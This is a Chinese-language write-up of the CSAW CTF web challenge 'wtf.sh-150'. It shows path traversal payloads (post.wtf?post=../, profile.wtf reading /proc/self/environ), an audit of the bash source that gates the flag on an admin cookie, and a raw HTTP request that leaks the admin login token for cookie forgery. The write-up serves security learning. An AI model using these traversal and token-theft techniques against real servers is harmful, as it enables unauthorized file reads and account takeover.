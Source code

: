 # wtf.sh-150

## 思路
```markdown
随便点击几个浏览可以看出题目环境是一个论坛，我们先注册个账号。
通过一些简单的测试像是sql注入，目录爆破，源码泄露这种常见套路走不通了
最后不断尝试：在展示文章的页面 post.wtf 下发现路径穿越漏洞
*（如果应用程序使用用户可控制的数据，以危险的方式访问位于应用服务器或其它后端文件系统的文件或目录，就会出现路径遍历。攻击者可以将路径遍历序列放入文件名内，向上回溯，从而访问服务器上的任何文件）
```

## wtf.sh（1） **路径穿越和cookie欺骗**
1. 获得网站源码
```http
	post.wtf?post=../ #获得网站源码
	## profile.wtf?user=../../../../../../../../../../proc/self/environ #获取有关我们所处位置和我们正在运行什么 可以获得PATH目录 搜寻PATH目录可以找到/usr/bin/get_flag1
```
	区别：当尝试加载post.wtf时，将获得一个空页面。这表明帖子是在目录中制作和加载的，可以通过访问来确认post.wtf?post=wwjnR 它加载与原始URL相同的页面
	（它试图打开的图片 /some/path/to/file/wwjnR//post.txt，两个正斜杠只是作为一个正斜杠处理）
2. 代码审计

   寻找flag关键字

   ```lua
   if contains 'user' ${!URL_PARAMS[@]} && file_exists "users/${URL_PARAMS['user']}"
   then
     local username=$(head -n 1 users/${URL_PARAMS['user']});
     echo "<h3>${username}'s posts:</h3>";
     echo "<ol>";
     get_users_posts "${username}" | while read -r post; do
         post_slug=$(awk -F/ '{print $2 "#" $3}' <<< "${post}");
         echo "<li><a href=\"/post.wtf?post=${post_slug}\">$(nth_line 2 "${post}" | htmlentities)</li>";
     done
     echo "</ol>";
     if is_logged_in && [[ "${COOKIES['USERNAME']}" = 'admin' ]] && [[ ${username} = 'admin' ]]
     then
         get_flag1
     fi
   fi
   ```

   源码告诉我们如果我们以*admin*身份登录并访问我们的配置文件，它将运行*get_flag1*。通过更多搜索，我们发现有一个目录可以存储*/users/中的*所有用户数据。因此，使用我们继续使用*？post =* inclusion漏洞。


读取所有站点的代码并探索目录结构。用户数据驻留在`users`目录中，其中用户文件包括用户名，密码哈希和登录令牌。使用第一个目录遍历，我们能够获得admin用户的登录令牌：

```http
GET /post.wtf?post=../users/ HTTP/1.1
Host: web.chal.csaw.io:8001
Cookie: USERNAME=test; TOKEN=HqZLY8GTURdESfMQn2+vDPRL4hpafUVU+ZeEhMGllZmEoD+AVa4Ucc9bIg9ht0r0gTzoDA927dK9OgLVxfHoYw==


HTTP/1.1 200 OK
[...]
<span class="post-poster">Posted by <a href="/profile.wtf?user=QNI5P">admin</a></span>
<span class="post-title">3f0b1ebe20e3682b1a5d701590ad76fb051d3a08</span>
<span class="post-body">ecX+3sJzU16hZeUPdfVy+h8kDJXsvR4DOd1QrliIBLRmgYs7sFqJvL/zRmUyhul5GtlLRbTHI/SWHMyNTcWPSw==</span>
[...]
```
